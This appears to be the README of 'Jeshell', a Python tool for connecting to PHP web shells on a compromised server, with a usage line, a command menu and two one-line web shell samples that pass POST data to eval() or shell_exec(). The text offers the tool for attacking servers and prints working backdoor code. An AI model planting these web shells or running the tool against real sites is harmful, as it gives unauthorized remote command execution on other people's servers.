 # Jeshell
A webshell linker for two type php function Forexample eval() or shell_exec()

Usage: python getshell.py http://127.0.0.1/shell.php  POST  c
Input:
	quit | q 	to quit()
	set 		to set URL,Method,Password
	back |b 	to back 
	help  		for help
	sheel_func type:
			php  --phpcode function 	Forexample: <?php eval($_POST[c])?>
  			bash --bashcode function 	Forexample: <?php echo shell_exec($_POST[c])?>

